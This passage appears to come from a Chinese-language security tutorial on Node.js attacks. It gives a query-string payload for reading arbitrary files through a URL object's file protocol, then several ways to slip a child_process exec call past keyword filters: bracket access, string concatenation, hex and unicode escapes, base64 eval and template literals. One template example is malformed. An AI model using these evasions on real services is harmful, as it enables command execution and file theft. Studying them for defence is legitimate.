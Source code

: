 payload

```bash
?file[href]=a&file[origin]=1&file[protocol]=file:&file[hostname]=&file[pathname]=读取的文件
```

### Bybass

#### 过滤`.`

通过我们上面对于 nodejs 命令执行的学习，我们知道在 NodeJs 中调用模块是通过“.”来实现的，假如说我们过滤了`.`，我们可以通过`[]`实现对于模块的调用

```bash
require('child_process')["exec"]('calc');
//require('child_process').exec('calc');
```

#### 拼接绕过

对于过滤一些关键字，我们可以使用拼接的方法进行绕过

```bash
require('child_process')["ex"+"ec"]('calc');
//require('child_process')["exec"]('calc');
```

#### 编码绕过

> 十六进制编码绕过

JavaScript 是支持 16 进制作为字符串使用的，我们可以使用十六进制进行绕过

```bash
require('child_process')["\x65\x78\x65\x63"]('calc');
//require('child_process')["exec"]('calc');
```

> unicode 编码绕过

JavaScript 除了支持十六进制以外还支持 Unicode 编码作为字符串使用

```bash
require('child_process')["\u0065\u0078\u0065\u0063"]('calc');
//require('child_process')["exec"]('calc');
```

> base64 编码绕过

```bash
eval(Buffer.from('cmVxdWlyZSgnY2hpbGRfcHJvY2VzcycpWyJleGVjIl0oJ2NhbGMnKTs=','base64').toString());
//require('child_process')["exec"]('calc');
```

#### ES6 模版绕过

我们也可以使用 ES6 模板绕过，反引号后面加入模板

```bash
require('child_process')[`${`${`exe`}cSync`}`"]('calc');
```
